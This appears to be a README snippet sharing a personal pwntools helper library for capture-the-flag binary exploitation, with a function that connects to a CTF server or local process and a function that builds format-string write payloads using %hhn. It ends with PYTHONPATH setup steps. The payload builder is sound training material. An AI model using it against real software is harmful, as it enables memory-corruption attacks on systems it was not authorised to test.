 <style>#downloads { display: none !important; }</style>

```python
from pwn import *

global p
global elf

def start(prog, args, port=None, gdb_cmd=None):
    prog = './' + prog

    context.arch = 'i386'
    context.terminal = ['urxvtc', '-e', 'sh', '-c']

    if args.REMOTE:
        p = remote('plsdonthaq.me', port)
        elf = ELF(prog)

    elif args.GDB:
        p = gdb.debug(prog, gdb_cmd) 
        elf = ELF(prog)

    else:
        p = process(prog)
        elf = p.elf

    return p, elf

def grab(p, start, end):
    p.recvuntil(start)
    return p.recvuntil(end, drop=True)

def pack(msg):
    print(bytes(msg, 'utf-8'))
    return bytes(msg, 'utf-8')

def fmtstr_build(win, target, offset, padding):
    payload = b"A" * padding
    payload += p32(target + 0) + p32(target + 1) + p32(target + 2) + p32(target + 3)
    payload += f"%{240 - padding}c".encode()

    for i in range(4):
        byte = win & 0xff
        win >>= 8
        if (byte == 0):
            payload += f"%{offset + i}$hhn".encode()
        else:
            payload += f"%{byte}c%{offset + i}$hhn%{256 - byte}c".encode()

    return payload
```

Then add the folder the lib is stored into your python path:
```bash
export PYTHONPATH="$PYTHONPATH:/folder/location/"
```
You can either run this every time you open a new terminal, or add it to your ~/.bashrc or ~/.zshrc and it will auto-run it everytime.

Finally, you can include this library into your programs with
```python
from lib import *
```